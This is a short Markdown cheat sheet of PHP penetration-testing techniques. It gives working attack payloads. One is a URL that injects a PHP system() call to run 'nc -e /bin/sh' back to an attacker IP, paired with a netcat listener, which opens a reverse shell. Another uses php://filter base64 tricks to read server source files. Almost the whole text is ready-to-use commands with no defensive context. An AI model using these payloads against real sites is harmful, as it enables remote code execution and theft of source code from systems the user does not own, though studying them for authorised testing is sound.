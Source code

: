 # PHP Penteration Testing Techniques

### Obtaining Shell through Browser Bar
```
# If you get similar to ?page=index in the browser bar
# In your attacking machine
nc -nlvp 441

# In the browser bar. Replace 10.11.1.139 with your attacking IP.
http://thedomain.com/index.php?page=index%27);${system(%27nc%20-e%20/bin/sh%2010.11.1.139%20441%27)};%23
```
### Using php:// in url to return base64 encoded page source
```
# https://victimsite.com/somefile.php?pagename=whatever
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile.php
# or
https://victimsite.com/somefile.php?pagename=php://filter/convert.base64-encode/resource=somefile

# Copy the returned base64 code and decode it
echo -n thebase64codethatwassuppliedbythephpfilterconvertbase64encode | base64 -d > somefile.php
```
